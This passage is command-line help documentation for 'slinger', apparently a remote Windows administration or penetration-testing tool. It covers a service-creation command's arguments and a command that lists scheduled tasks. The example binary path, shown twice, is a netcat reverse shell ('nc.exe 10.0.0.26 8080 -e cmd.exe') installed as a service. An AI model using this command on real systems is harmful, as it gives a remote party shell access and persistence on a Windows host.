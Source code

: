 ```
                        Specify the start type of the new service

Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"

```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `enumtasks`

**Description:** Enumerate scheduled tasks on the remote server

**Help:**
```
usage: slinger enumtasks [-h]

Enumerate scheduled tasks on the remote server

options:
  -h, --help  show this help message and exit

Example Usage: enumtasks

```

**Example Usage:**
```
Example Usage: enumtasks
```

---

## `tasksenum`
